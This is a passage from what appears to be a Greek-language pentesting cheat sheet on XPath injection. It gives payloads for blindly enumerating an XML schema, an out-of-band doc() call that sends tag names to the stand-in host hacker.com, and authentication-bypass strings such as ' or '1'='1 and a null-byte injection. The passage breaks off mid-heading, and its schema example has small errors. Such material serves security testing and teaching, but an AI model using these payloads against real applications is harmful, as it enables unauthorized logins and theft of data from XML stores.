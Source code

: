 ### Αναγνώριση & κλοπή του σχήματος
```python
and count(/*) = 1 #root
and count(/*[1]/*) = 2 #count(root) = 2 (a,c)
and count(/*[1]/*[1]/*) = 1 #count(a) = 1 (b)
and count(/*[1]/*[1]/*[1]/*) = 0 #count(b) = 0
and count(/*[1]/*[2]/*) = 3 #count(c) = 3 (d,e,f)
and count(/*[1]/*[2]/*[1]/*) = 0 #count(d) = 0
and count(/*[1]/*[2]/*[2]/*) = 0 #count(e) = 0
and count(/*[1]/*[2]/*[3]/*) = 1 #count(f) = 1 (g)
and count(/*[1]/*[2]/*[3]/[1]*) = 0 #count(g) = 0

#The previous solutions are the representation of a schema like the following
#(at this stage we don't know the name of the tags, but jus the schema)
<root>
<a>
<b></b>
</a>
<c>
<d></d>
<e></e>
<f>
<h></h>
</f>
</c>
</root>

and name(/*[1]) = "root" #Confirm the name of the first tag is "root"
and substring(name(/*[1]/*[1]),1,1) = "a" #First char of name of tag `<a>` is "a"
and string-to-codepoints(substring(name(/*[1]/*[1]/*),1,1)) = 105 #Firts char of tag `<b>`is codepoint 105 ("i") (https://codepoints.net/)

#Stealing the schema via OOB
doc(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
doc-available(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
```
## Authentication Bypass

### **Παράδειγμα ερωτημάτων:**
```
string(//user[name/text()='+VAR_USER+' and password/text()='+VAR_PASSWD+']/account/text())
$q = '/usuarios/usuario[cuenta="' . $_POST['user'] . '" and passwd="' . $_POST['passwd'] . '"]';
```
### **OR παράκαμψη σε χρήστη και κωδικό (ίδια τιμή και στους δύο)**
```
' or '1'='1
" or "1"="1
' or ''='
" or ""="
string(//user[name/text()='' or '1'='1' and password/text()='' or '1'='1']/account/text())

Select account
Select the account using the username and use one of the previous values in the password field
```
### **Κατάχρηση της ένεσης null**
```
Username: ' or 1]%00
```
### **Διπλό OR στο Όνομα Χρήστη ή στον Κωδικό** (είναι έγκυρο με μόνο 1 ευάλωτο πεδίο)